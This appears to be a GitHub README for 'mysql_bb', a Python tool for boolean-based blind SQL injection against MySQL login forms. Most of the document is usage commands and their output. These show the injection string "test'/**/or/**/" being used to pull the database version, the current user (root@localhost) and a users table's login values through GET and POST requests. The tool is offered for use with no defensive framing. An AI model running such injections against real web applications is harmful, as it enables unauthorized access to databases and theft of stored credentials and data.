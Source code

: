 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
#Injection into GET "http://localhost/login?username=admin&password=admin"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET --sql "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

#Injection into POST "http://localhost/login" with x-www-form-urlencoded body "username=test&password=test"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST --sql "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```

## TODO
- Support different content-types for POST requests;
